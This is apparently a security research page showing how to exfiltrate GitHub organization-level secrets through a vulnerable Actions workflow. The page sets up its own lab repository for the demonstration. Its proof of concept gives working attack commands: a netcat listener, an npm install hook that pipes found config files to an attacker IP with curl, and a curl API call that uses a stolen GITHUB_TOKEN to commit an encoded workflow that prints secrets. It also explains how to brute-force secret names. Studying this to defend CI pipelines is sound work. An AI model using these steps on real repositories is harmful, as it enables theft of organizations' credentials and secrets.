 # Exfiltration of organization level secrets

It is possible to exfiltrate [organization level secrets](https://docs.github.com/en/actions/security-guides/encrypted-secrets#creating-encrypted-secrets-for-an-organization) even if they are not referenced in the vulnerable repository. However, the access to the secrets should be granted to either all organization repositories (which is the default) or a selected set of repositories including the vulnerable repository.

One way to exfiltrate organization level secrets is to exfiltrate the `GITHUB_TOKEN` and create a new workflow which would reference and print the secrets. This workflow can be created in any branch of the repository. Finally, to actually exfiltrate the secrets one triggers the workflow.

Only organization admins can view the list of organization level secrets. However, it is possible to brute-force the secrets' names by referencing them in the malicious workflow. If a secret doesn't exist, it just prints the empty line. Also, it is possible to grep all public repositories of the organization with the `\${{ *secrets\.[^ ]+ *}}` regex to obtain secrets' names (some of the names might be repository level but others might be organization level).

## Example

### Environment setup

Run [`setup-org-level-secrets.sh`](../scripts/setup-org-level-secrets.sh) as the victim to create the `MYSECRET` organization level secret with the value of `1234567890` and the `org-level-secrets` repository with the vulnerable workflow.

> You'll need [gh](https://github.com/cli/cli) installed to execute the [`setup-org-level-secrets.sh`](../scripts/setup-org-level-secrets.sh) script

### Proof of concept

Perform the following steps as the attacker.

1. Open a publicly accessible port on a remote server (e.g. `nc -vlnk 0.0.0.0 1337`).
1. Fork the `org-level-secrets` repository.
1. Add the `scripts.install` key to the `package.json` file with the `find . -type f -name config | xargs cat | curl --data @- http://{IP}:1337` value replacing the `{IP}` placeholder with the public IP address of the remote server.
1. Open a pull request from the fork to the `org-level-secrets` repository.
1. Wait until the remote server recieves the request and base64-decode the `GITHUB_TOKEN` from it.
1. Run the following command replacing `{GITHUB_TOKEN}` and `{owner}` placeholders with the obtained `GITHUB_TOKEN` and the organization name respectively to create a new workflow.
    ```bash
    curl -X PUT -H "Accept: application/vnd.github.v3+json" -H "Authorization: Bearer {GITHUB_TOKEN}" https://api.github.com/repos/{owner}/org-level-secrets/contents/.github/workflows/exfiltrate.yml -d '{"message":"hey","content":"b246CiAgcHVsbF9yZXF1ZXN0X3RhcmdldDoKam9iczoKICBleGZpbHRyYXRlOgogICAgcnVucy1vbjogdWJ1bnR1LWxhdGVzdAogICAgc3RlcHM6CiAgICAgIC0gbmFtZTogZXhmaWx0cmF0ZQogICAgICAgIHJ1bjogfAogICAgICAgICAgZWNobyAiJHt7IHNlY3JldHMuTVlTRUNSRVQgfX0iIHwgYmFzZTY0IHwgYmFzZTY0"}'
    ```
1. Open another pull request from the to the `org-level-secrets` repository to trigger the workflow.
1. The double-base64-encoded `MYSECRET` secret should appear in workflow run logs.

